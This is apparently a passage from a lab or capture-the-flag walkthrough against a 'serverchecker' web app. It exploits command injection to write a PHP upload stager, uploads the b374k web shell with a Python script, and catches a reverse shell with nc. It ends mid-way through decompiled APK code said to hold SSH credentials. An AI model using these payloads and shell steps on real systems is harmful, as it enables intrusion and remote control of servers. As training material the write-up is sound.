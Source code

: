 There is some filtering on the commands but the directory we are in is writable:

>```
>{"status":"ok","command":"pwd\n","output":"\/usr\/share\/nginx\/serverchecker\/public\n"}
>```

printf is not filtered, we can use it to drop a stager:

>```
>printf '<?php error_reporting(E_ALL); ini_set("display_errors", 1); $fp = fopen($_POST["name"], "wb"); fwrite($fp, base64_decode($_POST["content"])); fclose($fp);?>' > ./stager.php
>```

>```
>curl -s -k  -X 'GET' -H 'X-UUID: dqi' -H 'X-Token: Twqnain9PyjcXQZSNKK2ZlhQRy13OfnJ' https://192.168.56.101/do/cmd/cHJpbnRmICc8P3BocCBlcnJvcl9yZXBvcnRpbmcoRV9BTEwpOyBpbmlfc2V0KCJkaXNwbGF5X2Vycm9ycyIsIDEpOyAkZnAgPSBmb3BlbigkX1BPU1RbIm5hbWUiXSwgIndiIik7IGZ3cml0ZSgkZnAsIGJhc2U2NF9kZWNvZGUoJF9QT1NUWyJjb250ZW50Il0pKTsgZmNsb3NlKCRmcCk7Pz4nID4gLi9zdGFnZXIucGhw
>```

Use the following python script do drop b374k.php:

>```python
>import requests
>import base64
>s = requests.session()
>target = "https://192.168.56.101:443/stager.php"
>f = open('b374k.php')
>payload = {
>        "name": "b374k.php",
>        "content": base64.b64encode("\n".join(f.readlines()))
>}
>r = s.post(target, data=payload, verify=False)
>```

We can do some enumeration with b374k, finding suid binaries in /usr/local/bin, afterwards it can spawn us a reverse shell.

>```bash
>$ nc -l -v -p 13123
>Listening on [0.0.0.0] (family 0, port 13123)
>Connection from [192.168.56.101] port 13123 [tcp/*] accepted (family 2, sport 53996)
>b374k shell : connected
>sh: no job control in this shell
>/usr/share/nginx/serverchecker/public>id
>id
>uid=998(nginx) gid=997(nginx) groups=997(nginx)
>```

There are SSH credentials included in the .apk file.

>```java
>public CommandActivity()
>    {
>        integrity_check = "YFhaRBMNFRQDFxJEFlFDExIDVUMGEhcLAUNFBVdWQGFeXBIVWEsZWQ==";
>    }
>    private static String validate(String s)
>    {
>        char ac[] = new char[31];
>        char[] _tmp = ac;
>        ac[0] = 'T';
>        ac[1] = 'h';
>        ac[2] = 'i';
>        ac[3] = 's';
>        ac[4] = ' ';
>        ac[5] = 'i';
>        ac[6] = 's';
>        ac[7] = ' ';